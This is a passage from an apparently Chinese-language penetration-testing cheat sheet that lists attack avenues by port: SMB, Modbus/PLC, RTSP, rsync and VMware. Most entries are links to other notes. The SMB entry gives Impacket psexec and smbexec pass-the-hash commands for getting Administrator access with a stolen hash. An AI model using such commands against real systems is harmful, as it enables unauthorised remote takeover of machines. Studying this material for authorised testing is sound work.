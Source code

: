 - [SSL＆TLS 安全性测试](../协议安全/Protocol-Exploits.md#ssl)
    - 心脏出血

---

## 445

`smb`

**HASH 传递**
```bash
# Impacket
python3 psexec.py -hashes 0:xxxxxxxxcxxxxxxxxxxxxxx Administrator@192.168.xx.xx

python3 smbexec.py -hashes 00000000000000000000000000000000:xxxxxxxxcxxxxxxxxxxxxxx Administrator@192.168.xx.xx
```

---

## 502

`Modbus`

- [信息收集](./信息收集.md#工控资产)
- [PLC攻击](../../../Power-PenTest.md#plc攻击)

---

## 554/8554

`rtsp`

- [RTSP 弱口令](../../IOT/硬件安全/Device-Exploits.md#camera)
- 暴力破解
    - [Tek-Security-Group/rtsp_authgrinder](https://github.com/Tek-Security-Group/rtsp_authgrinder)

---

## 873

`rsync`

- [Rsync未授权访问](../软件服务安全/CS-Exploits.md#rsync)

---

## 902

`vmware_authentication_daemon`

---

## 990
